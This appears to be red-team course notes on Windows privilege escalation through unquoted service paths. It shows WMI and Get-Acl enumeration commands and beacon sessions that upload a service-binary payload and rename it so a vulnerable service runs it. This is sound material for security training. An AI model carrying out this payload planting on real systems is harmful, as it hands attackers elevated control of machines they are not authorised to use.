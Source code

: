 After a service has been manipulated to trigger a privilege escalation, it needs to be restarted (or started if it's already stopped). There will be cases where this can be done with the management tools, if you have the required permissions. Other times, you'll need to rely on a reboot.

## Unquoted Service Paths

---

Pull a list of every service and the path to its executable with WMI:
```
run wmic service get name, pathname

Name                    PathName
ALG                     C:\Windows\System32\alg.exe
AppVClient              C:\Windows\system32\AppVClient.exe
Sense                   "C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"
[...snip...]
VulnService1            C:\Program Files\Vulnerable Services\Service 1.exe
```

When Windows attempts to read the path to this executable, it interprets the space as a terminator. So, it will attempt to execute the following (in order):

1. `C:\Program.exe`
2. `C:\Program Files\Vulnerable.exe`
3. `C:\Program Files\Vulnerable Services\Service.exe`

The PowerShell `Get-Acl` cmdlet will show the permissions of various objects (including files and directories):
``` powershell
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
```

Or use [[SharpUp#audit UnquotedServicePath]]

Payloads to abuse services must be specific "service binaries", because they need to interact with the Service Control Manager.  When using the "Generate All Payloads" option, these have svc in the filename. Use TCP beacons bound to localhost only for privilege escalations.

```
beacon> cd C:\Program Files\Vulnerable Services
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe
```

```
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe Service.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe
 290kb    fil     03/03/2021 11:11:27   Service.exe
```
